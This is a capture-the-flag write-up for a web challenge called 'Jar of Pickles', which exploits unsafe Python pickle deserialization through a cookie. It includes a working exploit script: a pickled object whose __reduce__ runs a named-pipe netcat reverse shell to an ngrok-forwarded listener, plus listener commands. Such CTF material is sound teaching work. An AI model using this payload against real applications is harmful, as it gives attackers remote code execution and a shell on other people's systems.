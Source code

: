 # Name: Web: Exotic Attacks: Jar of Pickles

## Vulnerability

Unsafe usafe of Python3 `pickle` module.

## Exploit

The exploit involves opening a reverse shell. You'll need to:
1. Create an account on [ngrok](https://ngrok.com/) (also confirm your email address).
2. Install `ngrok` on you machine.
3. Forward your 1234 port using: `ngrok tcp 1234`. A ngrok host and IP will be forwarded to your local port.

The instructions are also available [here](https://securiumsolutions.com/blog/reverse-shell-using-tcp/). Don't close the `ngrok` terminal until we are done.

Coming back to the challenge: click on the picture, it will take you to `/jar`.
Notice the `pickles` cookie.

Use `nc -nvlk 1234` in another terminal to open a connection on your internal port.

Then run this program that prints the encoded pickled object of this class that spawns a shell (change the IP to yours).

```python
import base64
import os
import pickle
import requests

NGROK_HOST = "" # TODO: ngrok host
NGROK_PORT = 0 # TODO: ngrok port

class RCE:
    def __reduce__(self):
        cmd = "rm -rf /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc %s %d > /tmp/f" % (NGROK_HOST, NGROK_PORT)

        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled).decode("utf-8"))
```

Take the output and set it as the Cookie value.
Make the request again.
You should have a shell now in the `nc` terminal.
Find the flag file and perform a `cat` on it; it should be in `home/ctf/`: `cat /home/ctf/flag.txt`.

Exploit in `../sol/solution.sh`.
